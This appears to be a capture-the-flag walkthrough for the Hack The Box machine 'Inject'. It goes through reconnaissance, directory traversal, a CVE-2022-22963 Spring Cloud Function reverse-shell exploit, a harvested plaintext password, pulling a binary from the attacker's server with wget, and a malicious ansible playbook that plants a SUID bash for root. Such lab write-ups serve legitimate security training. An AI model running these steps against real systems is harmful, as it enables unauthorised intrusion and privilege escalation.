# [Inject](https://app.hackthebox.com/machines/inject)

```bash
nmap -p- --min-rate 10000 10.10.11.204 -Pn  
```




After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,8080 10.10.11.204 
```




After accessing application, I can't find interesting thing to hack.




Let's do directory brute-force.

```bash
feroxbuster -u http://10.10.11.204:8080
```




I found `/show-image` endpoint on web application make enumeration on this.




Let's do `Directory Traversal` attack to read system files.




I found `pom.xml` file on `/var/www/WebApp` directory.




Let's read content of this.




I found that there's 'Spring Cloud Function' is used via outdated version '3.2.2' and have `RCE`exploit.




That's [CVE-2022-22963](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

```bash
python3 exploit.py -u http://10.10.11.204:8080/
```





Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I found `settings.xml` file which contains sensitive credentials on `frank`'s home directory.




phil: DocPhillovestoInject123


Let's switch into this user via `su - phil` command.


user.txt




I upload `pspy64` file into machine.

1.First, open http server.
```bash
python3 -m http.server --bind 10.10.16.7 8080
```




2.Second, let's download this binary.
```bash
wget http://10.10.16.7:8080/pspy64
```




I see that background job is `ansible_playbook` runs `.yml` files for `/opt/automation` directory.




Let's create malicious `.yml` file which makes copy of `/bin/bash` and add `SUID` binary into this.
```yml
- hosts: localhost
  tasks:
  - name: 'dr4ks owns inject'
    shell: cp /bin/bash /tmp/dr4ks; chmod 4777 /tmp/dr4ks 
```




After this executed , I can see this via `ls -al /tmp/dr4ks`.




Let's execute this binary `./dr4ks -p`.



